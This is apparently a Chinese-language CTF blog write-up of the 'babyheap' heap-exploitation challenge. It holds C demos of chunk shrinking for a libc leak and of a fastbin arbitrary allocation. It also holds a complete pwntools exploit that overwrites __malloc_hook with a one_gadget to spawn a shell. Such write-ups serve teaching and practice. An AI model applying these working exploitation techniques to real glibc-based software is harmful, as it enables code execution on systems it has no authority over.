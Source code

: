 ```yaml
---

layout: post

title: 'babyheap学习总结'

date: '2018-01-17'

header-img: "img/home-bg.jpg"

tags:
     - pwn 堆利用  
author: 'De4dCr0w'

---
```


<!-- more -->

### 漏洞原型

#### （1）通过shrink the chunk来leak libc地址

shrink the chunk demo 代码：



```
#include <stdlib.h>
#include <stdio.h>

int main()
{
    int i;
    char data[100];
    memset(data,'\x00',sizeof(data));
    char *A = malloc(0x30);
    char *B = malloc(0x160);
    char *C = malloc(0xf0);

    free(B);
    free(A);

    malloc(0x38);

    while(i < 0x38)
        data[i++] = 'a';
    data[i] = '\x00';

    memcpy(A,data,0x39);

    malloc(0x80);

    malloc(0x30);

    free(B);

    free(C);

    char *D = malloc(0x260);

    printf("info_leak_libc:%p\n",*(unsigned long *)(D+0x90));

    return 0;
}

```

泄露信息libc 地址的对布局过程：

![image](./image/leakinfo.jpg)

泄露出来的只是main_arena+x的地址，而main_arena的地址位于__malloc_hook+0x10的地方，所以  
main_arena_offset = __malloc_hook_offset+0x10  
x = leak_address - (__malloc_hook_address+0x10)
libc_base_address = leak_address - (x + main_arena_offset)

最后只要求出泄露出来的地址和libc基地址的偏移就行：  
offset = leak_address - __malloc_hook_address + __malloc_hook_offset

计算 main_arena的偏移有个工具可以使用：  https://github.com/Escapingbug/get_main_arena

#### （2）通过fastbin attack修改程序流程

atbitrary alloc demo代码：

```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```

### exp代码

```
from pwn import *

#context.terminal = ['tmux', 'splitw', '-h']

context.log_level = 'debug'

def Allocate(size):
    p.recvuntil("Command: ")
    p.sendline("1")
    p.recvuntil("Size:")
    p.sendline(str(size))
#    index = p.recvuntil("1. Allocate").split(' ')[3].split('\n')[0]
    index =1
    return index

def Fill(index,size,content):
    p.recvuntil("Command: ")
    p.sendline("2")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Size:")
    p.sendline(str(size))
    p.recvuntil("Content:")
    p.sendline(content)



def Free(index):
    p.recvuntil("Command: ")
    p.sendline("3")
    p.recvuntil("Index:")
    p.sendline(str(index))

def Dump(index):
    p.recvuntil("Command: ")
    p.sendline("4")
    p.recvuntil("Index:")
    p.sendline(str(index))
    p.recvuntil("Content: \n")
    data = p.recvline()
    return data

def Exit():
    pass


if __name__=='__main__':

    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")}

    p = process("./babyheap",env=env)
#    libc = ELF("./libc.so.6.my")
    libc = ELF("./libc.so.6_b86ec517ee44b2d6c03096e0518c72a1")
    libc.symbols['one_gadget'] = 0x41374
    libc_offset = 0x3a5678
 
    index0 = Allocate(16)
    index1 = Allocate(480)
    index2 = Allocate(512)
    index3 = Allocate(512)

    #gdb.attach(p)
    Free(1)

    payload = 'a'*24 + '\x30'
    Fill(0,25,payload)

    index4 = Allocate(128) #index:1
    index5 = Allocate(96) #index:4

    Free(1)
    Free(2)

    Allocate(128) #index:1
    data = Dump(4)
    data = u64(data[:8])
    print hex(data)
    libc.address = data - libc_offset
	
    payload = 'b'*0x80+p64(0x90)+p64(0x70)
    #payload = flat('b'*0x80,0x90,0x70)
    Fill(1,len(payload),payload)
    Free(4) #释放了0x70的堆块
     
  
    payload = 'c'*0x80+p64(0x90)+p64(0x70)
    payload += p64(libc.symbols['__malloc_hook']-0x23)

    #错位构造出一个0x000000000000007f

    Fill(1,len(payload),payload); #修改0x70的堆块的fd值
    Allocate(96) #index:2 重新申请到0x70的堆块，此时calloc会擦除fd和bk的数据，但是之前的fd会被保存在main_arena上
    Allocate(96) #index:4 根据伪造的fd地址，申请到__malloc_hook-0x23的位置

    gdb.attach(p)

    payload = 'd'*19 + p64(libc.symbols['one_gadget'])#覆盖__malloc_hook为/bin/sh的地址，0x23 -0x10（header）= 0x13 = 19,所以覆盖19个'd'后，再覆盖就是__malloc_hook的地址了。
    Fill(4,len(payload),payload)

    Allocate(96)
    p.interactive()

```

最后更改malloc_hook最后调用/bin/sh了，这里还有一个工具，用来找libc里的magic gadget，也就是将控制流放到这就能调用/bin/sh而不用考虑参数的问题的：  
https://github.com/david942j/one_gadget/tree/master/spec

### 参考链接

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/fastbin_attack.html

https://poning.me/2017/03/24/baby-heap-2017/

https://github.com/david942j/one_gadget
